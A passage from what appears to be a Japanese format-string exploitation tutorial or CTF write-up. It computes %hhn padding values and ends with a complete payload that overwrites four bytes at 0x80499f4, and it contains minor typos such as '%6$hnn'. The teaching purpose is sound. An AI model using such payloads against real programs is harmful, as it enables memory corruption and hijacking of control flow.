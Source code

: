　即ち、

| 書き込み先アドレス | 書き込み内容 |
|---|---|
| 0x80499f4 | 91 |
| 0x80499f5 | 86 |
| 0x80499f6 | 04 |
| 0x80499f7 | 08 |

　と書き込む。`91` から書き込んでいるのはリトルエンディアンのためだ。後ろから読む方式だ。

　書き込むために計算をする。

| 書き込み内容 | 計算 | byte数 | 累積 byte数 |
|---|---|---|---|
| \x08\x04\x99\xf4 |  | 4 | 4 |
| \x08\x04\x99\xf5 |  | 4 | 8 |
| \x08\x04\x99\xf6 |  | 4 | 12 |
| \x08\x04\x99\xf7 |  | 4 | 16 |
| %129c | 145(0x91) - 16(0x10) | 129(0x81) | 145(0x91) |
| %6$hhn | | | |
| %245c | 134(0x86) - 145(0x91) + 256(0x100) | 245(0xF5) | 390(0x186) |
| %7$hhn | | | |
| %126c | 4(0x04) - 390(0x186) + 512(0x200) | 126(0x7E) | 516(0x204) |
| %8$hhn | | | |
| %4c | 8(0x08) - 516(0x204) + 512(0x200) | 4(0x04) | 520(0x208) |
| %9$hhn | | | |

　書き込みたいアドレスを文頭に配置する。今回は4つ。その後ろに実際に書き込む値を指定する。今回は 1byte ずつ書き込むことにするので `%hhn` の書式トークンを利用する。

　`%6$hnn` は6番目のメモリが指すアドレスに書き込む事を示す。（ `%x` の6番目に `41414141` と並んでいたのを思い出して欲しい。今はここに `\x08\x04\x99\xf4` 即ち、`080499f4` と並んでいることになる）

　`%129c` は `91` という値を示す。累積 byte数を書き込むため、表で言えば、 `129(0x81)` を指定することで `145(0x91)` 即ち `91` を書き込む。

　下2つを書き込む仕様のため、 `%245c` と指定した時の累積バイト数が `390(0x186)` のため `86` を書き込む。

　同様に、 `$126c`, `%4c` はそれぞれ `516(0x204)`, `520(0x208)` であり `04`, `08` を書き込む。

　計算方法は、`書き込みたい文字 - 累積バイト数` である。負の値にならないように必要に応じて `512(0x200)` を加算する。`0x08`, `0x108`, `0x208` は全て `08` を書き込む仕様のため、負にならないように繰り上げれば問題ない。

　長かったがこれで書き込む文字列が完成した。以下だ。

　`\xf4\x99\x04\x08\xf5\x99\x04\x08\xf6\x99\x04\x08\xf7\x99\x04\x08%129c%6$hhn%245c%7$hhn%126c%8$hhn%4c%9$hhn`
